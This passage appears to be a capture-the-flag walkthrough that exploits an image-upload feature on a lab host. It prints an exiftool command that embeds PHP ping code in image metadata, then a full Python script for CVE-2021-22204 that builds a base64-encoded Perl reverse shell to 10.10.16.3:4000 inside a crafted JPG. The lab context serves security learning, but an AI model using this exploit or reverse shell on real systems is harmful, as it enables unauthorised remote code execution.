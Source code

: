 To do that, we will use exiftool to modify the metadata such that it contains a PHP code that executes a ping command

```
┌──(kali㉿kali)-[~/Desktop/meta]
└─$ exiftool -Comment="<?php exec('ping 10.10.16.3');" test.jpg
    1 image files updated
```

Next, we will open wireshark to check for any ping commands on 10.10.16.3 and we will upload the image onto the website. Unfortunately, we are unable to get any pings on our IP address.

Researching on exiftool exploits, we are able to come across CVE-2021-22204 for exiftool. Let us try to if this CVE works on this website. We will first obtain the exploit script from [here](https://github.com/convisolabs/CVE-2021-22204-exiftool)

However, we will need to modify the exploit script to change the IP address and the port of our reverse shell.

```
#!/bin/env python3

import base64
import subprocess

ip = '10.10.16.3'
port = '4000'

payload = b"(metadata \"\c${use MIME::Base64;eval(decode_base64('"


payload = payload + base64.b64encode( f"use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in({port},inet_aton('{ip}')))){{open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');}};".encode() )

payload = payload + b"'))};\")"


payload_file = open('payload', 'w')
payload_file.write(payload.decode('utf-8'))
payload_file.close()


subprocess.run(['bzz', 'payload', 'payload.bzz'])
subprocess.run(['djvumake', 'exploit.djvu', "INFO=1,1", 'BGjp=/dev/null', 'ANTz=payload.bzz'])
subprocess.run(['exiftool', '-config', 'configfile', '-HasselbladExif<=exploit.djvu', 'image.jpg']) 
```

Next, we will run the python exploit code and this will create a malicious jpg image. Afterwards, we will upload the image onto http://dev01.artcorp.htb/metaview/index.php and we will be able to obtain a reverse shell.

